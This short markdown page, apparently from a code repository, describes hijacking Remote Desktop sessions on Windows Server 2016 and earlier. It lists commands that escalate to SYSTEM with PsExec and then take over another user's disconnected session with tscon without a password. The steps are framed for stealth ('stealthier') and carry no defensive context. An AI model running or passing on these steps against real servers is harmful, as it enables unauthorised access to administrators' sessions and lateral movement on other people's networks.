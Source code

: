 ### When an administrator uses Remote Desktop to connect to a machine and closes RDP client instead of logging off, his session will remain open on the server INDEFINITELY!

### If you have SYSTEM privileges on Windows Server 2016 and earlier, you can take over any existing RDP session without requiring a password.

#### 1) cmd.exe (as administrator)

#### 2) PsExec64.exe -s cmd.exe

#### 3) query user

#### 4) Takeover sessions with disc state (stealthier)

#### tscon SESSION_NUM /dest:SESSION_NAME
